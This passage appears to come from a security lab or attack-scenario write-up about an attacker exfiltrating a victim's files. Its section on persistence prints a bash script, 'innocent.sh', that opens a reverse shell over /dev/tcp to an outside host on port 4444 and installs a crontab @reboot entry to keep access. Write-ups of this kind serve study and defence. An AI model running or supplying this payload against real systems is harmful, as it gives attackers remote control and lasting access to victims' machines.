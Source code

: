 <img src="images/files.png" alt="Screenshot 2025-06-07 alle 09.16.28  " style="zoom:50%;" />

The attacker decides to steal these files, which could be done directly with RDP. However, to gain a better position, the attacker tries to obtain a reverse shell on the victim machine and use that for the exfiltration step. In particular, if the attacker successfully obtains persistence, he can access Richard's machine even if he changes his password.

#### 2.2. Reverse Shell with Persistence

###### `innocent.sh`

The attacker has written `innocent.sh`, a script that spawns the reverse shell and mantains access using `cron`.

```bash
#!/bin/bash

SAFETYCOM="/bin/bash -c 'bash -i >& /dev/tcp/mornincatch.ph/4444 0>&1'"

(crontab -l ; echo "@reboot sleep 200 && $SAFETYCOM") | crontab 2> /dev/null

eval "$SAFETYCOM"
```
